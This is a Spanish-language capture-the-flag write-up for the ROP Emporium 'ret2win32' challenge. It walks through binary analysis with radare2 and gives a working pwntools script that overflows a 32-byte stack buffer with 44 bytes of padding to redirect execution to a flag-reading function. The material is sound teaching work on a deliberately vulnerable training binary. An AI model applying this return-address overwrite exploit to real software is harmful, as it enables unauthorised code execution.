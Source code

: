 ```yaml
---
layout: post
title: Ret2Win32 - RopEmporium
tags: [ctf, ropemporium]
---
```


**Autor**: RopEmporium \\
**Challenge**: 1

![img](/imgs/write-ups/ropemporium/ret2win32/ret2win32.png#center)

## Introducción

Este desafío es algo diferente a las máquinas boot2root que suelo publicar. En este caso parto de un binario el cual hay que explotar, sobreescribiento la dirección de retorno (return address) para poder ejecutar un función que de otra forma no se podría.

En este desafío las herramientas principales que voy a usar son **Radare2** y **PwnTools**.

Desde el siguiente enlace de me descargo un zip con el binario y la bandera, **[ret2win](https://ropemporium.com/challenge/ret2win.html)**. En este writeup resuelvo la version **x86**.

## Información del binario

```
kali@kali:~/Desktop/ropemporium$ rabin2 -I ret2win32 
arch     x86
baddr    0x8048000
binsz    6206
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
nx       true
os       linux
pic      false
relocs   true
relro    partial
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
```

Entre los datos a tener en cuenta vemos que **nx** está activado, por lo que el stack no es ejecutable. Esto ya lo sabiamos por que todos los desafios de **ropemporium** son así.

También compruebo que efectivamente su arquitectura es **x86**.

## Ejecución

Al ejecutar el binario me muestra un texto y luego me pide una entrada.

```
kali@kali:~/Desktop/ropemporium$ ./ret2win32  
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> LordP4
Thank you!

Exiting
```

Traducción.

```
Para mi primer truco, ¡intentaré meter 56 bytes de entrada de usuario en 32 bytes de buffer de pila!
¿Qué podría salir mal?
¿Me das tu opinión, por favor? Y no te preocupes por los bytes nulos, ¡estamos usando read()!
```

Con un bufferoverflow como este seguro que puedo sobreescribir la return address en el stack ;)

## Funciones

Abro el binario con radare2 para listar las funciones y echar un ojo como funciona.

```
kali@kali:~/Desktop/ropemporium$ r2 -d ret2win32    
glibc.fc_offset = 0x00148
[0xf7f48450]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Finding and parsing C++ vtables (avrr)
[x] Skipping type matching analysis in debugger mode (aaft)
[x] Propagate noreturn information (aanr)
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0xf7f48450]>
```

Con el comando **afl** listo las funciones. En este caso me interesan 3.

```
[0xf7f48450]> afl
[...]
0x080485ad    1 127          sym.pwnme
[...]
0x0804862c    1 41           sym.ret2win
[...]
0x08048546    1 103          main
[...]
```

Importante anotar la dirección en la que se encuentra **ret2win**.

### Main

![img](/imgs/write-ups/ropemporium/ret2win32/main.png#center)

**1)** Se puede observar que en la función **main**, únicamente se llama a **pwnme** y que **ret2win** no aparece por ningún lado.

**2)** Me anoto esa dirección de memoria porque será la que buscaré en el stack para sobreescribirla.

### Pwnme

![img](/imgs/write-ups/ropemporium/ret2win32/pwnme.png#center)

Esta función no tiene mucha complejidad.

En las marcas **1** y **2** se ve que, efectivamente como dice el binario, intenta meter 56 bites de entrada del usuario en 32 bites asignado a la variable.

### ret2win

![img](/imgs/write-ups/ropemporium/ret2win32/ret2win.png#center)

Esta función es el objetivo al que tenemos que llegar. Su único propósito es leer el contenido de **flag.txt**.

## Debug

Voy a ejecutar el binario y comprobar como se almacenan los datos en el stack.

Coloco un breakpoint tras la ejecución de la función **pwnme**.

```
[0xf7f48450]> db 0x08048590
[...]
|           0x0804858b      e81d000000     call sym.pwnme
│           0x08048590 b    83ec0c         sub esp, 0xc
│           0x08048593      68fd860408     push str._nExiting          ; 0x80486fd ; "\nExiting"
│           0x08048598      e833feffff     call sym.imp.puts           ; int puts(const char *s)
[...]
```

### Stack

Ejecuto el programa, introducto una cadena y la busco en el stack.

![img](/imgs/write-ups/ropemporium/ret2win32/stack.png#center)

En el número **1** de color azul, se pueden ver los 32 bites reservados para la variable y en el número **2** de color verde, se puede ver la dirección de retorno que es la que queremos sobreescribir (anotada anteriormente).

Entre las dos direcciones hay una diferencia de 44 bites.

## Explotación

Para realizar la explotación, creo un script en python en el que utilizaré **pwntools**.

exploit.py

```python
from pwn import *

# Iniciar el proceso
p = process("./ret2win32")

# Padding inicial de 44 bites.
payload = b"A"*44

'''
Ambas opciones para envíar la dirección son válidas
'''
payload += p32(0x0804862c) # Dirección de ret2win
#payload += b"\x2c\x86\x04\x08"

p.recvuntil(">")
p.sendline(payload)

p.interactive()
```

En este script lo primero que hago es iniciar el binario, a continuación creo el payload, formado por 44 bites como padding inicial y seguido de la dirección de memoria de la función **ret2win**.

Despues utilizo la función "sendline" para envíar el payload e "interactive()" para mostrar los resultados en la terminal.

## Solución

Al ejecutarlo, obtenemos la bandera.

```
kali@kali:~/Desktop/ropemporium$ python3 exploit.py
[+] Starting local process './ret2win32': pid 68961
/home/kali/Desktop/ropemporium/exploit.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil(">")
[*] Switching to interactive mode
 Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Y con esto termina mi solución. :)
